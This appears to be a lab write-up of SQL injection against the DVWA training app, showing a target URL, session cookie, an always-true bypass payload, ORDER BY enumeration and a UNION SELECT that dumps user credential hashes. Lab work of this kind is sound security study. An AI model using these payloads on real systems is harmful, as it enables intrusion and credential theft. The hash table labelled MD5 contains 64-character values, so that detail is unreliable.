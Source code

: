 
---

### 📋 Reconnaissance Phase

#### Initial Target Assessment
The SQL injection module in DVWA presents a simple user lookup interface where users can query user information by ID. This parameter became our primary attack vector.

**Target URL Pattern:**
```
http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=[INJECTION_POINT]&Submit=Submit
```

#### Session Management
Required authentication cookies for DVWA access:
```
Cookie: PHPSESSID=51f05876ce006ed33296ef8b0e5fa594; security=low
```

---

### ⚔️ Exploitation Methodology

#### Phase 1: Vulnerability Confirmation
**Objective:** Confirm SQL injection vulnerability exists  
**Payload:** `' OR '1'='1`  
**Expected Result:** Return all database records instead of single user

**Evidence:** `result1.png`
- Successfully bypassed authentication logic
- Retrieved multiple user records confirming SQLi vulnerability
- Confirmed unsanitized input processing

#### Phase 2: Database Structure Enumeration
**Objective:** Determine number of columns in SELECT statement  
**Technique:** ORDER BY clause enumeration

**Test Sequence:**
1. `1' ORDER BY 1 --` ✅ **Success** (`determining_column1.png`)
2. `1' ORDER BY 2 --` ✅ **Success** (`determining_column2.png`)  
3. `1' ORDER BY 3 --` ❌ **Error: Unknown column '3'** (`determining_column3.png`)

**Conclusion:** Target query returns exactly **2 columns**

#### Phase 3: Manual UNION-Based Data Extraction
**Objective:** Extract sensitive data using UNION SELECT  
**Payload:** `' UNION SELECT user, password FROM users --`

**Results:** (`union_db_attack.png`)
```
Retrieved User Credentials:
┌─────────┬─────────────────────────────────────┐
│ User    │ Password Hash (MD5)                 │
├─────────┼─────────────────────────────────────┤
│ admin   │ 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 │
│ gordonb │ e99a18c428cb38d5f260853678922e03 │
│ 1337    │ 8d3533d75ae2c3966d7e0d4fcc69216b │
│ pablo   │ 0d107d09f5bbe40cade3de5c71e9e9b7 │
│ smithy  │ 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 │
└─────────┴─────────────────────────────────────┘
```
